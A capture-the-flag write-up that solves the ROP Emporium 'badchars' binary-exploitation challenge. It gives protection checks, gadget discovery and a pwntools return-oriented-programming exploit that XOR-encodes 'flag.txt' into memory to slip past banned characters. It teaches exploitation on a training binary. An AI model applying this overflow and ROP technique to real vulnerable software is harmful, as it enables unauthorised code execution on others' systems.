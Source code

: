 # ❌ badchars – ROP Emporium Challenge

> Category: Binary Exploitation – ROP Basics  
> Difficulty: Medium  
> Arch: `amd64`  
> Objective: Bypass bad characters by encoding `"flag.txt"` into memory and call `print_file()`.

---

## 🛠️ 1. Initial Analysis

First, check the binary protections:

```bash
checksec badchars
```

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

### ✅ Observations:
- **NX enabled** → we can’t execute shellcode on the stack.  
- **No PIE** → addresses are static.  
- **No canary** → buffer overflow possible.  
- **Not stripped** → function symbols are available.  

---

## 🔍 2. Exploring Symbols

Using `nm`:

```bash
nm badchars
```

Interesting functions:

```
0000000000400607 T main
                 U print_file
                 U pwnme
0000000000400617 t usefulFunction
0000000000400628 t usefulGadgets
```

- `pwnme` → vulnerable function waiting for input.  
- `usefulFunction` → contains a call to `print_file()`.  
- `usefulGadgets` → helpful ROP gadget code.  

When sending input, a segmentation fault occurs, confirming a **buffer overflow**.  

Offset discovery required some adjustments because the input contained bad characters (like `a`). Using a restricted alphabet:

```bash
cyclic -a bcdefhi 100
```

This revealed the return address offset: **40 bytes**.  

---

## 📦 3. Writable Section

Inspecting memory with `radare2`:

```bash
r2 badchars
> iS
```

```
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
```

The **`.bss` section** is writable → perfect for storing our string.

---

## 🧱 4. Finding Gadgets

From Ghidra and ROPgadget, we discover:

- **XOR gadget**:
```
0x0000000000400628 : xor byte ptr [r15], r14b ; ret
```

- **Register control gadget**:
```
0x00000000004006a0 : pop r14 ; pop r15 ; ret
```

- **Function argument gadget**:
```
0x00000000004006a3 : pop rdi ; ret
```

---

## ⚠️ 5. Handling Bad Characters

The challenge forbids certain characters:  
```
a, g, x, .
```

Unfortunately, our target string `"flag.txt"` contains **all of them**.  

👉 The trick: **write an alternative character** and then **XOR it with a constant** to get the desired one.  

Examples:
- To get `'a'`: write `'b'` and then `xor 0x3`.  
- To get `'g'`: write `'h'` and then `xor 0xf`.  
- To get `'.'`: write `'/'` and then `xor 0x1`.  
- To get `'x'`: write `'y'` and then `xor 0x1`.  

---

## 🧪 6. Crafting the Exploit

Steps:
1. Overflow the buffer (40 bytes).  
2. Write each character of `"flag.txt"` into `.bss` at `0x601040`.  
3. Use the XOR gadget to fix the bad characters.  
4. Load `.bss` into `rdi`.  
5. Call `print_file()` with the correct string.  

### Final Exploit (simplified form):

```python
from pwn import *

p = process("./badchars")

payload = b"A" * 40

# Example: writing 'a' → start with 'b', then XOR 0x3
payload += p64(0x4006a0)  # pop r14 ; pop r15 ; ret
payload += p64(0x62)      # 'b'
payload += p64(0x601042)  # target address in .bss
payload += p64(0x400628)  # xor [r15], r14b ; ret

payload += p64(0x4006a0)  # pop r14 ; pop r15 ; ret
payload += p64(0x3)       # xor mask
payload += p64(0x601042)
payload += p64(0x400628)

# (repeat this encoding scheme for each character in "flag.txt")

# Call print_file("flag.txt")
payload += p64(0x4006a3)  # pop rdi ; ret
payload += p64(0x601040)  # address of "flag.txt"
payload += p64(0x400620)  # call print_file

p.sendline(payload)
p.interactive()
```

---

## 🎯 7. Result

Running the exploit:

```
python3 exploit.py
[+] Starting local process './badchars': pid 3687
[*] Switching to interactive mode
 Thank you!
ROPE{a_placeholder_32byte_flag!}
```

---

## 🧠 Key Takeaways

- Always check for **badchars** in the challenge description or binary.  
- Use gadgets like `xor [r15], r14b` to **fix forbidden characters dynamically**.  
- `.bss` is a reliable writable section for custom strings.  
- Understanding the **System V AMD64 calling convention** is essential: first argument in `rdi`.  
